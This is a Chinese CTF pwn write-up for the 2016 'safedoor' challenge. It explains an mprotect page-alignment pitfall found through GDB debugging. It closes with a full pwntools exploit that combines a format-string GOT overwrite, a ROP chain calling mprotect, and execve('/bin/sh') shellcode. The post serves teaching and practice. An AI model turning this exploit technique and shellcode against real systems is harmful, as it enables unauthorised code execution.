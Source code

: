 ```yaml
---
title: mprotect 之痛
date: 2016-05-18 17:36:34
tags: 
 - pwn
 - ctf
---
```


这道题目源自于 2016安云杯，题目原题可以在文章最后的附件里下载。

当时拿到这道题目以后，想法很简单。使用fmt将puts函数的got改掉换成程序自带的mprotect后门（如图）。先是用mprotect将栈空间段设置为可执行，然后利用gets函数将shellcode放入站上，由于最后没有将eax清空，eax寄存器仍然保存着栈地址，所以我们可以利用 jmp eax 或者 call eax 跳转到栈上执行。（一个简单的pwn案例）

{% asset_img  1.png %}

HOWEVER，说好的flag呢！？为什么mprotect函数执行后总是返回-1 ！？
{% asset_img  4.jpg %}

{% asset_img  2.jpg %}
一脸蒙蔽
{% asset_img  3.jpg %}
一定是我打开方式不对。。这个要先等等，然后再开。。没准就弹个shell给我了。嗯，我信了。

于是各种调试脚本。。。然并软，其中有一次竟然弹给我shell了。。这特么还有概率弹shell的啊，我特么第一次碰到啊。。

查了很多资料。
发现mprotect操作的前两个参数有具体限制的。

{% asset_img  5.png %}

来源于：[http://blog.csdn.net/u010651541/article/details/49913029](http://blog.csdn.net/u010651541/article/details/49913029)

接着，动态调试下。

{% asset_img  6.jpg %}

这边的第一个参数addr明显没有内存页对齐，用`si`跟进函数内部。

这边等dl_resolve操作完成之后，用`print mprotect`打印出mprotect函数在libc中的地址，然后下断点。再`c` 在执行到mprotect函数的位置停下。

{% asset_img  7.png %}

{% asset_img  8.png %}

继续跟进。发现在进行`syscall`系统调用mprotect之后，eax返回了两种不同结果，第一种结果是参数为(0xffe05390,0x80,0x7)的情况，第二种结果是参数为(0xffe05000,0x1000,0x7)的情况，可以发现在内存页对齐的情况下，成功带回eax=0。（这边不知道怎么跟进内核查看，求教大神）

{% asset_img  9.png %}

{% asset_img  10.png %}

接下来，由于mprotect函数之后gets函数没有限制输入字符的长度，我们可以进行面向返回的编程（rop），将栈上的空间设置为可读可写可执行，并将shellcode放在该栈空间上，最后跳转至该栈空间进行shellcode的执行。

exp如下。

```python
from pwn import *
p = process('./safedoor')
context(log_level='debug')

# p = remote('219.146.15.117',8000)
elf = ELF('safedoor')
puts_got = elf.got['puts']
mprotect_plt = elf.symbols['mprotect']
gets_plt = elf.symbols['gets']

ppp_ret = 0x080486cd
p_ret = 0x080483e1

p.recvuntil('KEY:')
m_p = 0x0804858D
page_size = 4096
# x&~(page_size-1)


gdb.attach(p,'b* 0x0804858D\nc')
payload = "%70$p..."
p.sendline(payload)
ebp = p.recvuntil('...')[8:16]
ebp_addr= int(ebp,16)
shellcode_addr  = (ebp_addr-296-0x98)&~(page_size-1)

for x in range(2):
	l = (m_p >> (x*8)) &0xff
	payload = p32(puts_got+x)+"%%%dc"%(l-4)+"%4$hhn..."
	p.sendline(payload)
	p.recvuntil('...')
l = (m_p >> (2*8)) &0xff
payload = p32(puts_got+2)+"%4$hhn..."
p.sendline(payload)
p.recvuntil('...')
l = (m_p >> (3*8)) &0xff
payload = p32(puts_got+3)+"%%%dc"%(l-4)+"%4$hhn..."
p.sendline(payload)
p.recvuntil('...')
p.sendline('STjJaOEwLszsLwRy')
p.recvuntil('\nKEY:')
shellcode =  "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80"
payload1 = 'A'*(140)+p32(mprotect_plt)+p32(ppp_ret)+p32(shellcode_addr)+p32(page_size)+p32(7)+p32(gets_plt)+p32(p_ret)+p32(shellcode_addr)+p32(shellcode_addr)
p.sendline(payload1)
p.sendline(shellcode)
p.interactive()

```

题目地址:https://github.com/Winter3un/ctf_task